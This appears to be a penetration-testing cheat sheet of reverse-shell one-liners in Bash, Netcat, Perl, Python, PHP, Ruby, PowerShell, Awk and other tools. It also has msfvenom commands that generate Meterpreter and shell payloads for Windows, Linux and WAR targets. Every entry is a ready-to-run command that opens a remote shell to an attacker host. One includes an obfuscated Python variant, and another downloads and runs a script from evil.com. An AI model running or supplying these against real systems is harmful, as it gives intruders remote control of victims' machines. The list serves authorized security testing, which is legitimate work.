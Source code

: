* Bash

  ```bash
  bash -i >& /dev/tcp/192.168.1.2/443 0>&1
  ```


* Netcat

  ```bash
  nc -e /bin/sh 192.168.1.2 443

  nc -e /bin/bash 192.168.1.2 443

  nc -c bash 192.168.1.2 443

  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.2 443 >/tmp/f

  nc.exe -e cmd 192.168.1.26 443
  ```


* Perl

  ```perl
  perl -e 'use Socket;$i="192.168.1.2";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
  ```


* Python

  ```python
  export RHOST="192.168.1.2";export RPORT=443;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
  ```

  ```python
  python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.2",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
  ```

  ```python
  C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('192.168.1.2', 443)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
  ```


* PHP

   ```bash
  php -r '$sock=fsockopen("192.168.1.2",443);exec("/bin/sh -i <&3 >&3 2>&3");'
  ```

  ```bash
  php -r '$sock=fsockopen("192.168.1.2",443);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
  ```


* Ruby

  ```ruby
  ruby -rsocket -e'f=TCPSocket.open("192.168.1.2",443).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
  ```

   ```ruby
   ruby -rsocket -e 'exit if fork;c=TCPSocket.new("192.168.1.2","443");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
   ```

  ```ruby -rsocket -e 'c=TCPSocket.new("192.168.1.2","443");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
  ```


* Xterm

   ```bash
   xterm -display 192.168.1.2:443
   ```


* Ncat

  ```bash
  ncat 192.168.1.2 443 -e /bin/bash
  ```


* Powershell

  ```powershell
  powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("192.168.1.2",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
  ```

  ```powershell
  powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.1.2',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
  ```

  ```powershell
  powershell IEX (New-Object Net.WebClient).DownloadString('https://www.evil.com/reverse.ps1')
  ```


* Awk

  ```bash
  awk 'BEGIN {s = "/inet/tcp/0/192.168.1.2/443"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
  ```


# Msfvenom

* War

  ```bash
  msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f war > reverse.war
  ```

## Windows

* Meterpreter (Metasploit Listener multi/handler) [Staged]

  * x86 ```msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe```

  * x64 ```msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe```

* Shell (Metasploit Listener multi/handler) [Staged]

  * x86 ```msfvenom -p windows/shell/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe```

  * x64 ```msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe```

* Shell (Netcat Listener) [Stageless]

  * x86 ```msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe```

  * x64 ```msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe```

## Linux

* Meterpreter (Metasploit Listener multi/handler) [Staged]

  * x86 ```msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf```

  * x64 ```msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf```

* Shell (Metasploit Listener multi/handler) [Staged]

  * x86 ```msfvenom -p linux/x86/shell/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf```

  * x64 ```msfvenom -p linux/x64/shell/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf```

* Shell (Netcat Listener) [Stageless]

  * x86 ```msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf```

  * x64 ```msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf```
